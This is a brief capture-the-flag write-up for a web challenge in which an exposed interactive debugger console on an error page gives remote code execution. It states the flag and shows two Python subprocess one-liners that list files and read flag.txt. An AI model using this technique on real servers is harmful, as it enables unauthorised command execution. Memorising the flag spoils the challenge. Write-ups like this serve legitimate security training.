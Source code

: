 # Slightly-broken
- Flag: `ECSC{173e83d17759b2fae389dc3156c51544e424743c7e08605994bf3ab4b810b87e}`
- Category: `web`
- Points: `50`

## Summary
Remote Code Execution from debugger interactive console

## Proof of Solving
So we click the link and we get a page with an error, we open the interactive terminal and send:

`import subprocess;out = subprocess.Popen(['ls'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT);stdout,stderr = out.communicate();print(stdout);`
`import subprocess;out = subprocess.Popen(['cat', 'flag.txt'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT);stdout,stderr = out.communicate();print(stdout);`

And we get the flag.
